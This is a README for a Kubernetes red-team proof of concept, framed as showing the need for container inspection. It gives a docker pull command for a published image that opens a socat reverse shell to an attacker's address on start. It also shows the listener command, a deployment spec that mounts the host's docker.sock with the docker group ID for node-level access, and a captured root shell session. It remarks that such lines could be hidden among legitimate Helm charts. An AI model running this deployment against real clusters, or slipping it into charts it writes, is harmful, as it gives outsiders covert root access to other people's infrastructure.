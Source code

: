 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart is actually installing in our cluster. The few lines of code to bring up the reverse shell could be really easily mixed inbetween legitimate charts and deployments so only careful inspection would make them apparent.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

When the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same security group id as the kubernetes nodes, like this:

        spec:
          securityContext:
            fsGroup: 412    # Group ID of docker group on k8s nodes.
          containers:
            - name: gkpown
              image: jordimiralles/redteam-gkpown
              imagePullPolicy: Always
              volumeMounts:
                - name: dockersock 
                  mountPath:   "/var/run/docker.sock"
          volumes:
          - name: dockersock 
            hostPath:
    path: /var/run/docker.sock

So we should have access to all the node context.You can check it very easily:
    
    tux at basecamp in ~/code/github/redteam-gkpown (master●●)
    $  socat file:`tty`,raw,echo=0 tcp-listen:9532
    /bin/sh: can't access tty; job control turned off
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # whoami
    root
    /gkpown # df -h
    Filesystem                Size      Used Available Use% Mounted on
    overlay                  25.4G     18.3G      7.0G  72% /
    tmpfs                     6.4G         0      6.4G   0% /dev
    tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
    /dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
    shm                      64.0M         0     64.0M   0% /dev/shm
    tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
    tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
    tmpfs                     6.4G         0      6.4G   0% /proc/kcore
    tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
    tmpfs                     6.4G         0      6.4G   0% /sys/firmware
